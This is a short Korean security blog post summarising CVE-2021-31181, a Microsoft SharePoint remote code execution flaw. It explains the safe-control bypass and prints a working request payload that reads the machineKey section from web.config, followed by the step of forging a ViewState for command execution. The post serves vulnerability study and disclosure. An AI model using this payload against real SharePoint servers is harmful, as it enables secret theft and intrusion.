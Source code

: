 ```yaml
---
title: "[하루한줄] CVE-2021-31181: Microsoft SharePoint 원격 코드 실행 취약점"
author: idioth
tags: [idioth, cve, microsoft, sharepoint, rce]
categories: [1day1line]
date: 2021-06-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2021-31181: MICROSOFT SHAREPOINT WEBPART INTERPRETATION CONFLICT REMOTE CODE EXECUTION VULNERABILITY](https://www.zerodayinitiative.com/blog/2021/6/1/cve-2021-31181-microsoft-sharepoint-webpart-interpretation-conflict-remote-code-execution-vulnerability)



## Target

- 2021년 5월 11일 릴리스 이전 버전의 Microsoft SharePoint
  - Foundation 2013 Service Pack 1
  - Server 2019
  - Enterprise Server 2016

## Explain

Microsoft SharePoint에서 인증된 사용자가 SharePoint의 웹 애플리케이션의 서비스 계정 context에서 임의 코드를 실행할 수 있는 취약점이 발견되어 5월에 패치되었습니다.

해당 취약점은 `EditingPageParser.VerifyControlOnSafeList()` 메소드에서 사용자 입력 값 검증 미흡으로 발생합니다. 이 메소드는 unsafe controls 리스트와 사용자의 입력 값을 비교하여 확인하며 `web.config`에 지정된 `SafeControl`에 의해 안전한 컨트롤이 없는 경우 예외를 발생시킵니다.

하지만 검사를 우회하는 방법이 존재합니다. `EditingPageParser.ParseStringInternal()`은 사용자 입력 값(`dscXml`)을 구문 분석하고 `hashtable`을 Register directive 정보로 채운 다음 서버 컨트롤을 나타내는 태그로 `hashtable2`를 채웁니다. 그 후 `hashtable2`의 각 요소에 대해 `Type` 객체를 생성하고 `SafeControls`의 allowed list와 비교하여 확인합니다. 하지만 `Type`을 확인할 수 없을 때 서버 컨트롤 태그가 무시됩니다. 이를 통해 `WebPartPagesWebService.RenderWebPartForEdit` 웹 API 메소드로 `/_vti_bin/webPartPages.asmx` 엔드포인트를 통해 접근할 수 있습니다. `aspx`를 입력 값으로 사용하여 `EditPageParser.VerifyControlOnSafeList`를 사용해 확인 후 unsafe element가 없으면 디자인 모드에서 마크업을 처리합니다. 이때 `RenderWebPartForEdit`의 request는 다음과 같습니다.

```
<%@ Register TagPrefix="WebPartPages" Namespace="Microsoft.SharePoint.WebPartPage" Assembly="Microsoft.SharePoint, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %> 
<%@Register TagPrefix="att" Namespace="System.Web.UI.WebControls " Assembly="System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"%> 
<WebPartPages:XsltListFormWebPart id="id01" runat="server" ListDisplayName="Documents" WebId="{6e7040c8-0338-4448-914d-a7061e0fc347}"> 
  <DataSources> 
    <att:xmldatasource runat="server" id="XDS1" 
      XPath="/configuration/system.web/machineKey" 
      datafile="c:/inetpub/wwwroot/wss/VirtualDirectories/80/web.config" /> 
  </DataSources> 
  <xsl> 
      <xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">          
          <xsl:output method="xml" indent="yes"/> 
          <xsl:template match="/" > 
          <xsl:copy-of select="."/> 
          </xsl:template> 
      </xsl:stylesheet> 
  </xsl> 
</WebPartPages:XsltListFormWebPart>
```

따라서 `web.config`의 machinekey section을 사용하여 서버에서 `ViewState`가 deserialize 될 때 임의의 OS 명령을 실행하는 `VIEWSTATE` 파라미터를 생성할 수 있습니다.
